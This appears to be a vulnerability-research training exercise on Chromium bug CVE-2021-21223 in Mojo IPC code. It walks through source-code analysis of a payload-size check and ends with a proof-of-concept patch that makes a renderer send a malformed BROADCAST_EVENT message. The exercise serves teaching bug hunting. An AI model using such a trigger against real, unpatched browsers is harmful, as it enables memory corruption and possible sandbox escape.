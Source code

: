 # Exercise 3

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21223
I sugget you don't search any report about it to prevents get too much info like patch.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1195308

</details>

--------

### Set environment

after fetch chromium
```sh
git reset --hard 5fea97e8b681c0a0e142f68ed03d5c4cc5862672
```



### Related code

mojo/core/node_channel.cc
<!-- mojo/core/node_channel.h
mojo/core/node_controller.cc
mojo/core/user_message_impl.cc -->

read this [design doc](https://chromium.googlesource.com/chromium/src/+/6740adb28374ddeee13febfd5e5d20cb8a365979/mojo/core#mojo-core-overview) about `mojo-code`, you can understand source code faster.


### Do it
Do this exercise by yourself, If you find my answer have something wrong, please correct it.


---------

<details>
  <summary>My answer</summary>

  I have notice one func, and this is the only func I suspect.
  ```c++
// static
void NodeChannel::GetEventMessageData(Channel::Message* message,
                                      void** data,
                                      size_t* num_data_bytes) {
  // NOTE: OnChannelMessage guarantees that we never accept a Channel::Message
  // with a payload of fewer than |sizeof(Header)| bytes.
  *data = reinterpret_cast<Header*>(message->mutable_payload()) + 1;
  *num_data_bytes = message->payload_size() - sizeof(Header);
}
  ```
  The **comment** reminds me, `NOTE: OnChannelMessage guarantees that we never accept a Channel::Message with a payload of fewer than |sizeof(Header)| bytes.`

  Can we make `message->payload_size()` less than `sizeof(Header)`? First we need bypass OnChannelMessage to get here.

  ```c++
void NodeChannel::OnChannelMessage(const void* payload,
                                   size_t payload_size,
                                   std::vector<PlatformHandle> handles) {
  DCHECK(owning_task_runner()->RunsTasksInCurrentSequence());

  RequestContext request_context(RequestContext::Source::SYSTEM);

  if (payload_size <= sizeof(Header)) {                [1]
    delegate_->OnChannelError(remote_node_name_, this);
    return;
  }
  //[ ... ]
    case MessageType::BROADCAST_EVENT: {
    if (payload_size <= sizeof(Header))
      break;
    const void* data = static_cast<const void*>(
        reinterpret_cast<const Header*>(payload) + 1);
    Channel::MessagePtr message =
        Channel::Message::Deserialize(data, payload_size - sizeof(Header));
    if (!message || message->has_handles()) {
      DLOG(ERROR) << "Dropping invalid broadcast message.";
      break;
    }
    delegate_->OnBroadcast(remote_node_name_, std::move(message));   [2]
    return;
  }
  ```
  [1] check `payload_size <= sizeof(Header)` at begain of OnChannelMessage, and I will explain [2] alter.

  We can search for which func call `GetEventMessageData`
  ```c++
ports::ScopedEvent DeserializeEventMessage(
    const ports::NodeName& from_node,
    Channel::MessagePtr channel_message) {
  void* data;
  size_t size;
  NodeChannel::GetEventMessageData(channel_message.get(), &data, &size);  [3]
  auto event = ports::Event::Deserialize(data, size);
  if (!event)
    return nullptr;
 [ ... ]
}
===========================================================
// static
Channel::MessagePtr UserMessageImpl::FinalizeEventMessage(
    std::unique_ptr<ports::UserMessageEvent> message_event) {
  [ ... ]
  if (channel_message) {
    void* data;
    size_t size;
    NodeChannel::GetEventMessageData(channel_message.get(), &data, &size);  [4]
    message_event->Serialize(data);
  }
  return channel_message;
}
  ```
  [3] and [4] both call `GetEventMessageData`, I analysis `DeserializeEventMessage`
  ```c++
void NodeController::BroadcastEvent(ports::ScopedEvent event) {
  Channel::MessagePtr channel_message = SerializeEventMessage(std::move(event));
  DCHECK(channel_message && !channel_message->has_handles());

  scoped_refptr<NodeChannel> broker = GetBrokerChannel();
  if (broker)
    broker->Broadcast(std::move(channel_message));
  else
    OnBroadcast(name_, std::move(channel_message));        [5]
}
=================================================================
void NodeController::OnBroadcast(const ports::NodeName& from_node,
                                 Channel::MessagePtr message) {
  DCHECK(!message->has_handles());

  auto event = DeserializeEventMessage(from_node, std::move(message));  [6]
  [ ... ]
  ```
  [6] call `DeserializeEventMessage` and `BroadcastEvent` call `OnBroadcast`, this is different from [2]. [2] will check `if (payload_size <= sizeof(Header))` before call `OnBroadcast`. And this way have no check so far, maybe I am wrong.


  **Poc**
  >To reproduce the issue, please patch chrome through the following patch
  ```diff
diff --git a/mojo/core/node_channel.cc b/mojo/core/node_channel.cc
index c48fb573fea9..7ce197a579f5 100644
--- a/mojo/core/node_channel.cc
+++ b/mojo/core/node_channel.cc
@@ -17,7 +17,7 @@
 #include "mojo/core/configuration.h"
 #include "mojo/core/core.h"
 #include "mojo/core/request_context.h"
-
+#include "base/trace_event/trace_event.h"
 namespace mojo {
 namespace core {
 
@@ -327,12 +327,23 @@ void NodeChannel::AcceptInvitee(const ports::NodeName& inviter_name,
 
 void NodeChannel::AcceptInvitation(const ports::NodeName& token,
                                    const ports::NodeName& invitee_name) {
-  AcceptInvitationData* data;
-  Channel::MessagePtr message = CreateMessage(
-      MessageType::ACCEPT_INVITATION, sizeof(AcceptInvitationData), 0, &data);
-  data->token = token;
-  data->invitee_name = invitee_name;
-  WriteChannelMessage(std::move(message));
+  if (base::trace_event::TraceLog::GetInstance()->process_name() ==
+      "Renderer") {
+    void* data;
+    Channel::MessagePtr broadcast_message =
+        CreateMessage(MessageType::BROADCAST_EVENT, 16, 0, &data);
+    uint32_t buffer[] = {16, 16 + 0x10000, 0, 0};
+    memcpy(data, buffer, sizeof(buffer));
+    WriteChannelMessage(std::move(broadcast_message));
+  } else {
+    AcceptInvitationData* data;
+    Channel::MessagePtr message = CreateMessage(
+        MessageType::ACCEPT_INVITATION, sizeof(AcceptInvitationData), 0,
+        &data);
+    data->token = token;
+    data->invitee_name = invitee_name;
+    WriteChannelMessage(std::move(message));
+  }
 }
 
 void NodeChannel::AcceptPeer(const ports::NodeName& sender_name,
  ```
  
</details>

--------

